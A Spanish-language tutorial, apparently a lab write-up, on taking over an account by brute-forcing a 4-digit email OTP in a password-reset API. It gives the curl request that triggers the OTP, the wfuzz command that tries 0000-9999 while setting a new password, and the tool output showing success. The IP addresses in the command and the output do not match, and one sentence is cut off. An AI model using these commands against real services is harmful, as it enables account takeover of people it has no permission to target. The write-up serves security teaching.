 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinarlas por fuerza bruta.

Sin embargo, otro vector de ataque son los mecanismos de auto restablecimiento de contraseñas que las empresas ofrecen a sus empleados, por ejemplo, ante un olvido de la misma. En este artículo, veremos cómo aprovecharnos de un mecanismo de restablecimiento de contraseña que usa OTP.

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS para que pueda ser introducida por el usuario. También podría ser generada/visualizada mediante aplicaciones como DUO o Microsoft Authenticator.

A continuación, simularemos un ataque a un mecanismo OTP que envía la clave a la dirección del correo electrónico de un usuario dado. Partiremos del correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la clave OTP y la nueva clave final. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

Es habitual encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz, con un rango desde el 0001 hasta el . Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
#wfuzz -c --hh 23 --hc 404 -u http://94.237.59.180:50815/api/v1/authentication/customers/passwords/resets -z range,0000-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecución de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.







